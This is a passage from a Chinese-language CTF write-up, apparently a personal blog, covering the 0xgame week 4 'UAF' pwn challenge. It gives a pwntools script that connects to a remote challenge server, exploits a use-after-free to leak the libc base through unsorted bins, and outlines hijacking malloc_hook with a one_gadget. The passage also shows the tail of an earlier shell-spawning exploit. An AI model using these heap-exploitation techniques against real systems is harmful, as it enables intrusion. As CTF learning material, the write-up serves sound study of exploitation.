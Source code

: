 ```
io.sendafter(b'Say something:',get_shell)
io.interactive()            
```

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-44-1024x609.png" alt="img" style="zoom:50%;" />

总体来说，week3还是挺难的，但是还好就三道题，三天干掉嘿嘿嘿。

# 0xgame week4

#### [Week 4] UAF

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-46-1024x467.png" alt="img" style="zoom: 80%;" />

如图，经典菜单题，没有后门函数，所以考虑用onegadget打malloc_hook

one_gadget信息如下

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-45-1024x381.png" alt="img" style="zoom:67%;" />

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-49.png" alt="img" style="zoom:67%;" />

如上图，dele函数有uaf漏洞

直接通过unsorted bins泄露libc基址然后打uaf劫持malloc

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-48-1024x166.png" alt="img" style="zoom:67%;" />

上代码

```
from pwn import *
#io = process('./uaf')
io = remote('47.97.58.52',44000)
libc = ELF('libc.so.6')
context(os = 'linux',arch='amd64',log_level='debug')
def add(index,size,content):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter size: ',str(size).encode())
    io.sendafter(b'Enter data: ',content)
def dele(index):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter index: ',str(index).encode())
def show(index):
    io.sendafter(b'>> ',b'3')
    io.sendafter(b'Enter index: ',str(index).encode())
def edit(index,content):
    io.sendafter(b'>> ',b'4')
    io.sendafter(b'Enter index: ',str(index).encode())
    io.sendafter(b'Enter data: ',content)
add(8,0x100,p64(0))
for i in range(7):
   add(i,0x100,p64(0))
for i in range(7):
   dele(i)
dele(8)
#gdb.attach(io)
#pause()
show(8)
io.recvuntil(b'Data: ')
addr = u64(io.recvuntil(b'\n',drop = True).ljust(8,b'\x00'))
libc_base = addr - 0x7d43a8121be0 + 0x7d43a7f35000
print(hex(libc_base))
```